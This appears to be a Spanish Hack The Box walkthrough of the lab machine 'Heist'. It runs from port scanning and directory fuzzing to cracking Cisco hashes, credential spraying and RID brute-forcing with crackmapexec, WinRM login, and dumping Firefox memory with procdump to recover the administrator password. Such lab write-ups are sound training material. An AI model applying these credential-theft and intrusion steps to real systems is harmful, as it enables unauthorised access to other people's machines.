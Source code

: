 ```yaml
---
description: '✍️ Autor: MinatoTW🔍 Dificultad: Fácil 📅 Fecha de creación: 20/11/2019'
---
```


# Heist

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.149
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1284).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.149
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1285).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** El puerto 80 está abierto y ejecutando un servidor web **Microsoft IIS 10.0**. Además, la página detectada es **"Support Login Page"** y el recurso solicitado es `login.php`.
* **Puerto 135 (MSRPC):** El puerto **135 (RPC)** está abierto, lo cual indica que el sistema Windows puede estar ejecutando servicios de administración remota.
* **Puerto 445 (SMB):** El puerto 445 está abierto, lo que indica que **SMB (Server Message Block)** está en uso. Esto puede abrir múltiples vectores de ataque.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80,135,445 -v 10.10.10.149
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1286).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (1287).png" alt=""><figcaption></figcaption></figure>

Le damos a iniciar como invitado.

<figure><img src="../../.gitbook/assets/image (1288).png" alt=""><figcaption></figcaption></figure>

Vemos que hay dos usuarios llamados **Hazard** y **Admin**. Hazard tiene un problema con el router de CISCO. Hacemos una búsqueda de directorios.

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.149/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1289).png" alt=""><figcaption></figcaption></figure>

Me llama la atención el directorio **attachments**.

<figure><img src="../../.gitbook/assets/image (1290).png" alt=""><figcaption></figcaption></figure>

Nos da error ya que no tenemos permisos por lo que enumeramos los archivos que contiene ese directorio.

```bash
gobuster dir -u http://10.10.10.149/attachments/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,pdf,jpg,png,zip,docx,csv
```

<figure><img src="../../.gitbook/assets/image (1302).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el fichero `config.txt`.

<figure><img src="../../.gitbook/assets/image (1291).png" alt=""><figcaption></figcaption></figure>

Vemos unas contraseñas de Cisco por lo que las crackeamos.

{% embed url="https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html" %}

<figure><img src="../../.gitbook/assets/image (1292).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1293).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

```bash
echo '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (1294).png" alt=""><figcaption></figcaption></figure>

Con **crackmapexec** miramos las credenicales posibles con Hazard y esas contraseñas.

```
crackmapexec smb 10.10.10.149 -u Hazard -p contraseñas.txt
```

<figure><img src="../../.gitbook/assets/image (1295).png" alt=""><figcaption></figcaption></figure>

El **RID Bruteforce** es una técnica para enumerar usuarios de un sistema Windows explotando cómo funciona el protocolo SMB por lo que eso hacemos.

```
crackmapexec smb 10.10.10.149 -u Hazard -p stealth1agent --rid-brute
```

<figure><img src="../../.gitbook/assets/image (1296).png" alt=""><figcaption></figcaption></figure>

Han aparecido mas usuarios por lo que descubrimos si tenemos sus contraseñas.

```
crackmapexec smb 10.10.10.149 -u usuarios.txt -p contraseñas.txt
```

<figure><img src="../../.gitbook/assets/image (1297).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado las credenciales de **Chase**. Nos logueamos para tener acceso a **WINRM**.

```
evil-winrm -i 10.10.10.149 -u Chase -p "Q4)sJu\Y8qz*A3?d"
```

<figure><img src="../../.gitbook/assets/image (1298).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

<figure><img src="../../.gitbook/assets/image (1299).png" alt=""><figcaption></figcaption></figure>

El primer punto menciona “Seguir revisando la lista de incidencias”. Esto se puede hacer a través de un navegador. Si recordamos, las incidencias eran la sección donde el usuario "Hazard" tenía problemas con su router Cisco y donde pudimos acceder a su archivo de configuración en los adjuntos. Esto sugiere que quien escribió esta nota monitorea activamente las incidencias en el servidor web.

Además, hemos notado que **Firefox** está instalado en la máquina, a pesar de no ser el navegador predeterminado.

<figure><img src="../../.gitbook/assets/image (1300).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1301).png" alt=""><figcaption></figcaption></figure>

Subimos esto.

{% embed url="https://www.techspot.com/downloads/6550-microsoft-procdump.html" %}

<figure><img src="../../.gitbook/assets/image (1303).png" alt=""><figcaption></figcaption></figure>

**Generar el volcado de memoria**: Lo primero que hago es obtener el volcado de memoria de un proceso, como Firefox, utilizando la herramienta _procdump_. Para ello, ejecuto el siguiente comando en PowerShell, sustituyendo `<PID>` por el ID del proceso que quiero volcar.

```
.\procdump64.exe -ma 6624 -accepteula firefox.dmp
```

<figure><img src="../../.gitbook/assets/image (1304).png" alt=""><figcaption></figcaption></figure>

**Buscar las credenciales**: Una vez que tengo el volcado de memoria, procedo a buscar la contraseña o los hashes de las credenciales dentro del archivo `.dmp`. En este caso, encontré la contraseña del administrador: `4dD!5}x/re8]FBuZ`.

```bash
download firefox.dmp
strings firefox.dmp | grep -ie "login_username\|login_password"
```

<figure><img src="../../.gitbook/assets/image (1305).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1306).png" alt=""><figcaption></figcaption></figure>

Conseguimos las credenciales de **administrator** de SMB.

```bash
smbclient //10.10.10.149/C$ -U administrator
```

<figure><img src="../../.gitbook/assets/image (1307).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1308).png" alt=""><figcaption></figcaption></figure>
